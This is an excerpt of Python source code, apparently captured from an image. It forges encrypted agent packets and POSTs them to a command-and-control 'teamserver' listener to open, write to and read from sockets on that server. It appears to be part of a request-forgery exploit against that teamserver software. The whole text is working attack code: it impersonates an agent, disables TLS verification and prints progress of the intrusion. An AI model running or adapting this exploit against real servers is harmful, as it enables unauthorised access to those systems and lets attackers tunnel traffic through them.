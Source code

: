 ```python
    for octet in target_address.split(".")[::-1]:
        forward_addr += int_to_bytes(int(octet), length=1)

    forward_port = int_to_bytes(target_port)

    package = subcommand+socket_id+local_addr+local_port+forward_addr+forward_port
    package_size = int_to_bytes(len(package) + 4)

    header_data = command + request_id + encrypt(AES_Key, AES_IV, package_size + package)

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    data = agent_header + header_data


    print("[***] Trying to open socket on the teamserver...")
    r = requests.post(teamserver_listener_url, data=data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
    else:
        print(f"[!!!] Failed to open socket on teamserver - {r.status_code} {r.text}")


def write_socket(socket_id, data):
    # COMMAND_SOCKET / 2540
    command = b"\x00\x00\x09\xec"
    request_id = b"\x00\x00\x00\x08"

    # SOCKET_COMMAND_READ / 11
    subcommand = b"\x00\x00\x00\x11"
    sub_request_id = b"\x00\x00\x00\xa1"

    # SOCKET_TYPE_CLIENT / 3
    socket_type = b"\x00\x00\x00\x03"
    success = b"\x00\x00\x00\x01"

    data_length = int_to_bytes(len(data))

    package = subcommand+socket_id+socket_type+success+data_length+data
    package_size = int_to_bytes(len(package) + 4)

    header_data = command + request_id + encrypt(AES_Key, AES_IV, package_size + package)

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id
    post_data = agent_header + header_data

    print("[***] Trying to write to the socket")
    r = requests.post(teamserver_listener_url, data=post_data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
    else:
        print(f"[!!!] Failed to write data to the socket - {r.status_code} {r.text}")


def read_socket(socket_id):
    # COMMAND_GET_JOB / 1
    command = b"\x00\x00\x00\x01"
    request_id = b"\x00\x00\x00\x09"

    header_data = command + request_id
```